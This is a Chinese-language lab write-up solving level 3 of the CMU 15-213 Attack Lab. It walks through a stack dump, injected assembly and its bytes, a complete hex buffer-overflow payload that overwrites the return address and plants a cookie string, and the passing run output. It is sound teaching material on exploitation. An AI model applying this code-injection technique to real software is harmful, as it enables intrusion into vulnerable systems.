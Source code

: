 ```common
0x5561dc00:	0xf7a71148	0x00007fff	0xf7dcfa00	0x00007fff
0x5561dc10:	0xf7dcc2a0	0x00007fff	0x5561dc78	0x00000000
0x5561dc20:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc30:	0xf7a723f2	0x00007fff	0x5561dc78	0x00000000
0x5561dc40:	0x5561dc78	0x00000000	0x5561dca8	0x00000000
0x5561dc50:	0x00401a8a	0x00000000	0x55586000	0x00000000
0x5561dc60:	0x55685fe8	0x00000000	0x00000002	0x00000000
0x5561dc70:	0x004017b4	0x00000000	0x9f56c900	0x66cda64c
0x5561dc80:	0xf7dcfa00	0x00007fff	0x55685fe8	0x00000000
0x5561dc90:	0x00000002	0x00000000	0x00401916	0x00000000
0x5561dca0:	0x55586000	0x00000000	0x00000000	0x00000000
0x5561dcb0:	0x00401f24	0x00000000	0x00000000	0x00000000
0x5561dcc0:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dcd0:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dce0:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
```
我们可以看到从0x5561dcc0开始的部分都是被保留没有改变的，而我们在getbuf处读入的栈区开始的地址是0x5561dc78，中间有72(0x40)个字节的距离，而之前我们栈区申请了0x28空间，返回地址存放在0x28-0x30这段空间，所以我们后面填充0x10个无效字节之后就能填充我们需要的字符串了。　　
现在我们来仔细考虑一下我们的字符串应该怎么构造。首先是代码部分，我们直接将0x5561dcc0这个地址赋值给%rdi，然后我们压入touch3的地址，用ret进行跳转，也就是
```asm
mov $0x5561dcc0,%rdi
push touch3
ret
```
接着，我们在0x28-0x30这段填入一个指向我们代码的地址，来让我们的代码能够得到执行。然后在0x40之后的地址填入cookie字符串。利用gcc和objdump我们得到
```
0000000000000000 <.text>:
   0:	48 c7 c7 c0 dc 61 55 	mov    $0x5561dcc0,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq
```
那么类似于实验２，我们首先得到前0x40的字符串的初始状态(hex2raw之前)
```txt
48 c7 c7 c0 dc 61 55 68 fa 18 40 00 c3 ff ff ff
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff 78 dc 61 55 00 00 00 00
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
```
接下来的位置就要存放cookie了，因为我的cookie是0x59b997fa,所以我应该构造的字符串是"0x59b997fa'\0'",注意一定要有末尾的'\0'，这代表了字符串的结束。然后是存放的位置，因为是小端法，所以直接写入(注意不含0x)
```txt
48 c7 c7 c0 dc 61 55 68 fa 18 40 00 c3 ff ff ff
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff 78 dc 61 55 00 00 00 00
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff 35 39 62 39 39 37 66 61
00 ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
```
利用hex2raw转化之后执行，pass!
```common
➜  target1 ./hex2raw<level3.txt >level3-raw.txt
➜  target1 ./ctarget -q <level3-raw.txt
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 C0 DC 61 55 68 FA 18 40 00 C3 FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF 78 DC 61 55 00 00 00 00 FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF 35 39 62 39 39 37 66 61 00 FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF
```
#### 总结